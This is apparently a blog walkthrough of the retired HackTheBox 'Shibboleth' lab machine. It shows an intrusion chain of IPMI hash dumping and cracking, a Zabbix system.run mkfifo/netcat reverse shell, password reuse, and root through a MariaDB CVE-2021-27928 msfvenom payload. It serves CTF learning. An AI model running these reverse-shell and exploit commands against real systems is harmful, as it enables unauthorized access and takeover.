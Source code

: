 ```yaml
---
title: "HackTheBox: \"Shibboleth\" Walkthrough"
date: 2022-04-22T17:36:59+02:00
tags: ['hackthebox', 'ctf']
slug: "hackthebox-shibboleth-walkthrough"
draft: false
---
```


# Introduction

This is my first walkthrough for a HackTheBox machine. It's not the first
machine I've done, though. But as Shibboleth is now "retired", it is allowed
to publish walkthroughs. I have decided not to publish any passwords,
because that would spoil the fun (and not add anything in terms of learning).
I'll rather focus on my chain of thought to go through this challenge.

# Foothold

The very first scan on every machine I do is a port scan using nmap. Depending on
the results, I continue to directory and/or vhost (subdomain) scanning.

First an nmap scan only reveals `80/tcp` as an open port. I have yet to encounter a machine
where this port is not open, as every machine has some kind of "landing page".
In this case, where a tcp port scan does not reveal anything interesting,
it's not a bad idea to also scan udp ports:

```plain
Discovered open port 623/udp on 10.10.11.124
```

Now that's something! A quick search reveals that `623/udp` is the default port for IPMI,
which is some kind of remote management interface.

Searching a bit further, we find common vulnerabilities for IPMI. One that
sounds especially promising is dumping the hashes. Conveniently, the metasploit framework
comes with a payload for this task.

```plain
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25b6d5c382010...
```

When obtaining a hash, and it's an "insecure" one (that is, not bcrypt or similar),
I put it into hashcat right away. In this case, we need to pick the right
hash type. My hashcat version suggested three, and `-m 7300` is the correct one in this case.
I'm using the "rockyou" wordlist, which also yields a result in this case.

Now we have a username and password, but what next? I tried playing around
with IPMI a bit more - there seem to be ways to get a reverse shell, but those
were not working with this IPMI instance.

But, we are also not done with scanning! Let's scan for vhosts next:

```plain
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
```

Again, this looks promising. All vhosts point to the same Zabbix instance.
Let's login with the credentials we obtained earlier!

# User

We now have adminisrator access to Zabbix. The installed Zabbix version 5.0.17
does not have any known vulnerability. But, Zabbix is a monitoring software
and as such for sure has the capability to execute commands on the machines
it is monitoring. Time to RTFM :scream:

Under *Configuration > Items > Item types > Zabbix agent* we will find:
> `system.run[command,<mode>]` - Run specified command on the host.

Exactly what we are looking for! Note that this seems to be an intentional
misconfiguration on this machine, because the docs also say:

> All `system.run[*]` items (remote commands, scripts) are disabled by default, even when no deny keys are specified


We now know that we can create an "Item" for the `shibboleth.htb` host in
the Zabbix UI.
I tried a lot of different reverse shell commands until I finally found one which
was working in this context:

```plain
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f,nowait]
```

Click on *Test > Get Value and Test*. We now have a reverse shell for user `zabbix`.


```plain
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc

```

We also see the only entry in `/home` is for user `ipmi-svc`, so we now have to escalate to this
user. We *do* have a password, so try the straight-forward way:

```plain
$ su ipmi-svc
Password: <password>
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Done - we can read the user flag!

# Root

Our next step is to gain root access. If there is no obvious way forward,
running LinPEAS usually gives us a hint: On this machine, there is a config
file `/etc/zabbix/zabbix_server.conf`, which is owned by root - and readable by the current user!
In this file, we will find credentials for a database server. Let's try them out:


```plain
$ mysql -u zabbix -p<password> zabbix

MariaDB [zabbix]> select version();
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

Looking up vulnerabilities for this MariaDB version leads to `CVE-2021-27928`.
We can use metasploit again, this time to build a payload:

```plain
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4242 -f elf-so -o payload.so
```

Connect to the MariaDB server, execute the payload:

```plain
mysql -u zabbix -p<password> -e 'SET GLOBAL wsrep_provider="/tmp/payload.so";'
```

# Conclusion and Learnings

I really liked the Shibboleth machine. Probably because it wasn't "the usual
web stuff". Most of the time I needed was to understand
how Zabbix works, and then to get the reverse shell working. This is also
a key learning for me: If you "know" you are on the right track, but it's
not working, try another way. This machine was the first time I used
(and needed) a "mkfifo reverse shell". Furthermore, I learned about `msfvenom`.